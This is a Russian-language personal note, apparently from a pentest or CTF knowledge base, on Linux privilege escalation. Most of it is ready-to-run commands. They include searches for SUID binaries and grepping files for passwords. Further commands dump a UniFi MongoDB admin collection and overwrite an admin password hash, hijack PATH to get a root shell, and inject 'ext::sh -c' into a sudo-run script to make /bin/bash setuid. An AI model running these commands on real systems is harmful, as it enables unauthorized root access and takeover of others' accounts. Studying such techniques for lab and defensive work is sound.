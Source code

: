 ### \[lin/win]PEAS и аналоги
[[Кибербезопасность/Сканирование сети/Сканирование уязвимостей/Инструментарий]]
# Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```bash
	find / -user root -perm /4000 2> /dev/null
	``` 
	```bash
	find / -type f -perm -u=s 2> /dev/null
	```
	```bash
	find / -perm -40 2> /dev/null
	```
	```bash
	find / -perm -u=s -type f 2>/dev/null
	```
	
3. Происматривать файлы в поисках пароля и других закладок: 
	``` bash
	cat * | grep -i passw*
	```
	```bash
	sudo find / -user root -perm -4000 -exec ls -ldb {} \\; 2> /dev/null 
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```bash
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```bash
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```bash
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то **bash** команду. 

Дальше нужно создать файл этой bash команды с содержимым:
``` bash
/bin/sh
```
и добавить её в начало переменной **PATH**:
```bash
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

похожий пример:
![[Pasted image 20240625220640.png]]
```bash
echo '#!/bin/bash' > /tmp/exploit.sh 
echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```
```bash
ls -l /bin/bash
/bin/bash -p
```

Дополнительный материал по разведке в системе: [[Администрирование Linux#Информация о системе]]